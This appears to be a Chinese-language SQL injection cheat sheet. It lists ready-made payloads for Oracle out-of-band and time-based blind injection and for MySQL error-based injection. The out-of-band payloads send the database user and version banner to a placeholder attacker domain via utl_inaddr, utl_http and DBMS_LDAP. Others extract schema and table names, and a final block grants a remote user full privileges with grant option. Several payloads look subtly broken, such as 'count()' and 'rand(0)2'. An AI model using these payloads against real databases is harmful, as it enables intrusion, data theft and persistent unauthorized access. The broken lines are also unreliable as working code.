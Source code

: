 #### oracle带外注入

- 获取当前数据库用户
```
' and (select utl_inaddr.get_host_address((select user from dual)||'.xxx.xxx') from dual) is not null--+
```
- 获取版本信息
```
' and 1=utl_http.request('.xxx.xxxx'||(select banner from sys.v_$version where rownum=1))--+
' and (select SYS.DBMS_LDAP.INIT((select user from dual)||'.xxxx.xxxx') from dual) is not null--+
```

#### oracle时间盲注

- 获取当前用户
```
' and 1=(DBMS_PIPE.RECEIVE_MESSAGE('a',10))--+
' AND 7238=(CASE WHEN (ASCII(SUBSTRC((SELECT NVL(CAST(USER AS VARCHAR(4000)),CHR(32)) FROM DUAL),1,1))>96) THEN DBMS_PIPE.RECEIVE_MESSAGE(CHR(71)||CHR(106)||CHR(72)||CHR(73),1) ELSE 7238 END)
```

### mysql注入

#### mysql报错注入

- 获取当前数据库用户
```
1' and extractvalue(1,concat(0x7e,(select user()),0x7e))--+
1' and updatexml(1,concat(0x7e,(select user()),0x7e),1)--+
1' and (select count(*) from information_schema.tables group by concat(select user(),0x7e，floor(rand(0)*2)))--+
1' or+1+group+by+concat_ws(0x7e,user(),floor(rand(0)*2))+having+min(0)+or+1
' and (select 1 from (select count(*),concat((select user()),floor(rand()*2))a from information_schema.columns group by a)b)limit 0,1--+
```
- 获取当前所有数据库
```
1' and (select 1 from(select count(),concat((select (select (SELECT distinct concat(0x7e,schema_name,0x7e) FROM information_schema.schemata LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)

```
- 获取当前所有表
```
1' and (select 1 from(select count(),concat((select (select (SELECT distinct concat(0x7e,table_name,0x7e) FROM information_schema.tables where table_schema=database() LIMIT 0,1)) from information_schema.tables limit 0,1),floor(rand(0)2))x from information_schema.tables group by x)a)

```
-赋给用户远程权限
```
GRANT ALL PRIVILEGES ON *.* TO 'user'@'%' IDENTIFIED BY 'mypwd' WITH GRANT OPTION; 
FLUSH   PRIVILEGES;
模板：
grant all privileges on 库名.表名 to '用户名'@'IP地址' identified by '密码' with grant option;
flush privileges;
```
